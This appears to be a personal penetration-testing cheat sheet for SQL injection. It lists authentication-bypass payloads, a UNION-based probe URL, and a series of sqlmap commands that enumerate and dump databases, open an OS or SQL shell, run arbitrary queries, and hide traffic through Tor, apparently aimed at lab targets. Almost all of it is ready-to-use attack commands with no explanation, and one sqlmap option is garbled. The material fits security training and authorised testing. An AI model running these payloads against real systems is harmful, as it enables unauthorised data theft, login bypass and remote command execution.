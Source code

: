 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#enumeration #web-enumeration 

Testing for Bypasses: 

' or 1=1 LIMIT 1 --
' or 1=1 LIMIT 1 -- -
' or 1=1 LIMIT 1#
'or 1#
' or 1=1 --
' or 1=1 -- -

# SQLMAP

## Enumerate databases
sqlmap --dbms=mysql -u "$URL" --dbs

## Enumerate tables
- sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" --tables

## Dump table data
- sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" -T "$TABLE" --dump
## Dump Columns
- sqlmap --dbms=mysql -u https://megacorpone.com -D "DATABASE" -T "TABLE" -C "COLUMN" --dump
## List Columns
- sqlmap --dbms=mysql -u https://megacorpone.com -D "DATABASE" -T "TABLE" --columns
## Specify parameter to exploit
- sqlmap --dbms=mysql -u "http://www.megacorpone.com/param1=value1&param2=value2" --dbs -p param2

##  Specify parameter to exploit in 'nice' URIs
- sqlmap --dbms=mysql -u "http://www.megacorpone.com/param1/value1*/param2/value2" --dbs # exploits param1

## Get OS shell
- sqlmap --dbms=mysql -u "$URL" --os-shell

## Get SQL shell
- sqlmap --dbms=mysql -u "$URL" --sql-shell

## SQL query
- sqlmap --dbms=mysql -u https://megacorpone.com -D "$DATABASE" --sql-query "SELECT * FROM $TABLE;"

## Use Tor Socks5 proxy
- sqlmap --tor --tor-type=SOCKS5 --check-tor --dbms=mysql -u https://megacorpone.com --dbs
## Using SQLMAP with basic authentication or NTLM
- sqlmap -u "http://megacorpone.com/" -s-data=param1=value1&param2=value2 -p param1 --auth-type=[basic/ntlm] --auth-cred=username:password
# SQLI

Testing for a row: 

- http://target-ip/inj.php?id=1 union all select 1,2,3,4,5,6,7,8
# Resources: 
- http://www.securityidiots.com/Web-Pentest/SQL-Injection/Union-based-Oracle-Injection.html
- https://cheatography.com/dormidera/cheat-sheets/oracle-sql-injection/
- https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet